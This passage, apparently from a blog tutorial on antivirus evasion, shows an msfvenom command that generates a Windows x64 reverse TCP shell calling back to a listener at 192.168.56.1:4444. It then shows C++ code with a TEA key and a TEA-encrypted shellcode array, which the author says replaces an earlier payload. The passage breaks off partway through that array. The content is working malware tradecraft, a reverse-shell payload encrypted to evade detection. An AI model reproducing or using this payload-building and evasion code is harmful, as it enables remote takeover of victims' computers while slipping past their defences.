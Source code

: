 ```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.56.1 LPORT=4444 -f c
```

![av-evasion](/assets/images/89/2023-02-22_01-22.png){:class="img-responsive"}      

Then, in the previous example, I simply replace the payload with a TEA-encrypted reverse shell:     

```cpp
unsigned char key[] = "\x6d\x65\x6f\x77\x6d\x65\x6f\x77\x6d\x65\x6f\x77\x6d\x65\x6f\x77";
unsigned char my_payload[] =
"\xce\xfb\x86\x47\x3f\x90\x06\xe8\x28\x1e\x88\x4f\x3f\xe1"
"\x9b\xf8\x91\x37\x57\xad\xd3\x6e\xfa\xb2\x63\x8f\xf7\x05"
"\xe1\x08\xa1\x3a\x23\x0f\x46\x03\x15\xa9\x5d\x20\x15\x35"
"\x62\x49\x7f\x78\xe1\xae\xd0\xe5\x13\x7b\x35\x4d\x99\x63"
"\xed\xb1\x46\xfb\xe9\x97\xb3\x47\x07\x79\x88\xc9\xb9\xdc"
"\xda\x3e\x79\x55\xa1\x23\x22\x68\x62\x70\xb6\xab\xbb\x15"
"\x83\x07\xcb\xc6\xbc\x47\x9d\xe8\xec\x53\x5e\x00\x24\xd6"
"\x90\x81\x90\xbf\xa1\x35\x96\x0b\x24\x42\x33\x57\xf6\xe0"
"\x9f\xff\x9f\x99\xdc\x80\x5f\x0e\xdd\x28\x76\x1b\xb2\x80"
"\xeb\x37\x2b\x0d\x02\x22\x6f\x99\x7a\x5d\x1e\x85\x7e\x37"
"\x01\xda\x97\x80\xc6\xc1\x31\x78\xd8\x5c\x97\xc4\xbf\x99"
"\x82\x8c\xb5\x89\x65\xc6\xdf\x15\xec\x31\x17\xc3\x23\x9c"
"\xb6\x81\x61\x94\x49\x93\x95\x5c\x0c\x99\xee\x9e\x5f\x9d"
"\x22\x54\x60\x0b\x9e\x10\x9f\xe4\x67\x32\x58\x01\x36\xbf"
"\x48\x42\x5f\x0a\xa6\xf7\xb5\x3e\xd4\x12\x7b\xd6\x33\x52"
```